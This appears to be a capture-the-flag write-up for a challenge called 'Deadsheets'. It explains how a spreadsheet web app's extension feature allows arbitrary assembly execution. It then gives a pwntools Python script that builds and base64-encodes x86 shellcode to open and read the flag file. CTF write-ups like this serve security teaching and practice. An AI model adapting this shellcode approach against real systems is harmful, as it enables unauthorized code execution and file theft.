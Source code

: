 # Deadsheets 
## Summary 
In this challenge the website we are given access to creates a "database"
sheet that is accessable, the interesting aspect of this challenge is the
fact that is has a extensible option when we add data to the sheet. This 
option allows us to run any hex encoded assembly code which means we have
arbitrary code execution access to the challenge. The main issue is 
acutally creating this script since it has to be in assembly.

## Approach 1
This approach was our team used to actually gain access to the flag,
were we manuelly crafted our script and sent it to the server. Below I 
will have the code and the comments will explain what each step is doing
(keep in mind the actual code must not have comments in it to run 
properly). 
```python
from pwn import *

from base64 import b64encode

bss_addr = 0x0804c060
flag_addr = bss_addr + 5 # address to push the flag to so we can access it

payload = asm(f"""
pushad
# setup for actually opening the flag file
mov eax, 0x5 
push 0x0
push 0x67616c66
mov ebx, esp
mov ecx, 0x0
mov edx, 0x0
int 0x80

# read the contents in the open file
mov ebx, eax
mov eax, 0x3
mov ecx, {flag_addr}
mov edx, 0x40
int 0x80 


# access the open syscall return so we can read the actual flag 
mov eax, {flag_addr}

# pop values at the end
pop esi
pop esi
popad
ret
""")
# encode payload so we can use it on the server
print(b64encode(payload))
```

